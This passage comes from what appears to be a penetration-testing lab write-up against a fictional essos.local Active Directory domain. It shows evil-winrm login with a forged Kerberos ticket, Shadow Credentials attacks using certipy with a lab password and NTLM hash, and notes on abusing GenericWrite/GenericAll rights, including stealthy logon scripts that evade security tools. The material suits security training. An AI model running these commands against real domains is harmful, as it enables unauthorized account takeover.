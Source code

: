 >[!NOTE] 
>Login failed

> Note : Here we asked an altservice HTTP/meereen.essos.local for winrm usage

```
export KRB5CCNAME=/workspace/certifried/administrator@HTTP_meereen.essos.local@ESSOS.LOCAL.ccache
evil-winrm -i meereen.essos.local -r ESSOS.LOCAL
```

- and voilà :)
![screenshot](pics/certifired_evil_winrm_error.png)

## Shadow Credentials

- Shadow credentials attack consist of using the GenericAll or GenericWrite privilege on a user or computer to set up the attribute msDS-KeyCredentialLink. explanations [here](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
    
- You can get the dacl movement on shutdown (@_nwodtuhs) website, the hacker recipes : [https://www.thehacker.recipes/ad/movement/dacl](https://www.thehacker.recipes/ad/movement/dacl)
    

- This attack is very usefull when you got Write on another user.
    
- With genericWrite you can only do:
    - Target Kerberoasting : add an SPN to a user, do a kerberoasting, unset the spn. But the user password must be weak to the kerberoasting attack work.
    - Set up a logon script : change ldap parameters to set up a logon script. but it implies that the user log to his computer, an smb server or a share to offer the script and setup a script that bypass the security solutions in place)
    - shadow credentials : the attack we want to do, we need a cetificate service on the domain
- With GenericAll you can :
    - ForceChangePassword : but on a real pentest you don’t want to block a user by changing his password. And this is not very stealthy too. So if you can do another way this is fine :)
    - All the attacks available in the genericWrite part.

So if ADCS is enabled on the domain, and we got write privilege on msDS-KeyCredentialLink, we can do the shadow credentials attack to get a direct access on the user account. And this seems to be the better idea in this case on a real pentest.

- Shadow credentials is now include with certipy (this attack can also be done with [pywisker](https://github.com/ShutdownRepo/pywhisker) )
```
certipy-ad shadow auto -u khal.drogo@essos.local -p 'horse' -account 'viserys.targaryen'
```

- And we can do the same from viserys to jorah
```
certipy shadow auto -u viserys.targaryen@essos.local -hashes 'd96a55df6bef5e0b4d6d956088036097' -account 'jorah.mormont'
```